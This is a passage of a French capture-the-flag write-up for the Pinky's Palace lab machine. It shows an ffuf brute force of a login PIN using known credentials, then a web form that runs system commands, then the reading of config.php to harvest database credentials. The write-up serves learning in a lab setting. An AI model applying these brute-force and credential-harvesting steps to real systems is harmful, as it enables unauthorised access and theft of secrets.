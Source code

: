 ```console
    * PIN: 00001
--- snip ---
```

Il suffit d'enchainer sur la recherche du PIN :

```console
$ ffuf -u http://127.0.0.1:8080/login.php -X POST -d "user=pinkadmin&pass=AaPinkSecaAdmin4467&pin=PIN" -H "Content-type: application/x-www-form-urlencoded"  -w /tmp/numbers.txt:PIN  -fs 41
 
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://127.0.0.1:8080/login.php
 :: Wordlist         : PIN: /tmp/numbers.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : user=pinkadmin&pass=AaPinkSecaAdmin4467&pin=PIN
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 41
________________________________________________

55849                   [Status: 302, Size: 0, Words: 1, Lines: 1]
```

## Capitaine Hook

Une fois connecté sur l'interface web avec les bons identifiants, on tombe sur un formulaire permettait de faire exécuter des commandes système.

Elles sont toutes exécutées avec les droits de l'utilisateur `pinksec`. Je trouve quelques identifiants sur le système :

```php
pinksec@pinkys-palace:~$ cat html/config.php 
<?php
$DB_USER = "psec";
$DB_PASS = "FJ#90)FJ#@j";
$DB_HOST = "localhost";
$DB_NAME = "pinksec";
?>
```
